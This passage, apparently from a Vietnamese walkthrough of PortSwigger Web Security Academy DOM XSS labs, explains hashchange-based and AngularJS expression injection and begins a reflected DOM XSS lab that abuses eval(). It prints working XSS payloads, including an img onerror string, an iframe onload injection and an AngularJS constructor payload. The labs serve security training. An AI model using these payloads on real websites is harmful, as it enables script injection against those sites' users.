 Payload
```
#<img src=1 onerror=alert(1)>
```
![image](https://hackmd.io/_uploads/By1qq_yUa.png)
Vậy là ta có thể thêm bất kỳ error nào nếu muốn

Tuy nhiên, ta cần kích hoạt sự kiện `hashchange` mà không cần sự tương tác của người dùng bằng cách dùng `iframe`
```
<iframe src="https://0a0e00b604d1e7df82d66a5100530084.web-security-academy.net//#" onload="this.src+='<img src=1 onerror=print()>'"></iframe>
```
![image](https://hackmd.io/_uploads/BJPk6uJUT.png)
![image](https://hackmd.io/_uploads/H1Ee6_1Up.png)

# Lab 8: DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded
![image](https://hackmd.io/_uploads/S1R1ZwgUa.png)

Ta thấy web sử dụng thuộc tính `ng-app` trong thẻ html, chứng tỏ nó sử dụng framework AngularJS
![image](https://hackmd.io/_uploads/H1-JbweUa.png)
Ngoài ra, xem source ta cũng biết web sử dụng Angular 1.7.7
![image](https://hackmd.io/_uploads/HJbvzveU6.png)

AngularJS sẽ thực thi JavaScript bên trong dấu ngoặc nhọn đôi có thể xuất hiện trực tiếp trong HTML hoặc bên trong các thuộc tính. Chèn thử `hihi{{1+1}}`
![image](https://hackmd.io/_uploads/S1b6WDlI6.png)
Vậy nó thực thi được lệnh trong dấu ngoặc nhọn `{{}}`

Chèn tiếp 
```
{{constructor.constructor('alert(1)')()}}
```
![image](https://hackmd.io/_uploads/Hk9kXDxIT.png)

# Lab 9: Reflected DOM XSS
![image](https://hackmd.io/_uploads/S1saBvxUp.png)

Khi search thì kết quả được trả về thông qua hàm `search` đối số `search-results`
![image](https://hackmd.io/_uploads/r1zTdweUa.png)

Đọc file `searchResults.js` ta biết hàm này sau khi thực thi nhận được phản hồi status 200 sẽ sử dụng `eval()` để phân tích cú pháp của `responseText` thành một đối tượng JavaScript (searchResultsObj), sau đó gọi hàm displaySearchResults để hiển thị.
![image](https://hackmd.io/_uploads/BydqKvx8a.png)
